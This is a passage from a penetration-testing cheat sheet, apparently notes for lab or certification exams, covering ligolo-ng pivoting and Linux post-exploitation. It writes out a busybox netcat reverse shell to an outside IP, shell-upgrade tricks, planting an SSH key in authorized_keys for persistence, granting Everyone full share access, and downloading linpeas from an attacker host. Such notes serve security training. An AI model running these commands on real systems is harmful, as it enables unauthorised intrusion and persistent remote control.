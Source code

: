 ```bash
Icacls $dir_to_share /grant Everyone:F /inheritance:e /T

```

#### Ligolo

For the AD set, I used [ligolo-ng](https://github.com/nicocha30/ligolo-ng) as my preferred redirection tool.

```bash
cd /opt/ligolo
sudo ./proxy -selfcert -laddr 0.0.0.0:443

## get agent to target
agent.exe -ignore-cert -connect $cb_ip:443
```

### Linux Enumeration / Commands

For exploit reverse shells, I recommend [revshells](https://www.revshells.com/). I use a busybox nc -e 99% of the time, as most linux boxes will have busybox.

`busybox nc 172.16.99.206 80 -e /bin/bash`

```bash
# Exploit shells usually suck, the following gives you the full pty experience (tab complete, arrow keys)
python3 -c 'import pty;pty.spawn("/bin/bash")'
// CTRL+Z
stty raw -echo;fg
export TERM=xterm
reset

# Another way to get a better shell, is to add your public key to your users authorized_keys file
## see if current user can ssh
cat /etc/ssh/sshd_config
## if yes, add
mkdir /home/$(whoami)/.ssh; echo "$my_public_key" >> /home/$(whoami)/.ssh/authorized_keys
ssh $user@$target

# Always run sudo -l, even if you don't know your user's password. Might have passwordless sudo perms
sudo -l

# Look at common directories, make note of anything abnormal
ls -latrF .
ls -latrF /tmp /opt / /home

# Look at the processes
ps -elfH

# Look at the netstat, pay close attention to services only listening on localhost
netstat -pantu


## get linpeas
wget http://$cb_ip/linpeas.sh
curl http://$cb_ip/linpeas.sh -O linpeas.sh

!! READ ALL OUTPUT !!

## try any creds against all users
su $user
```
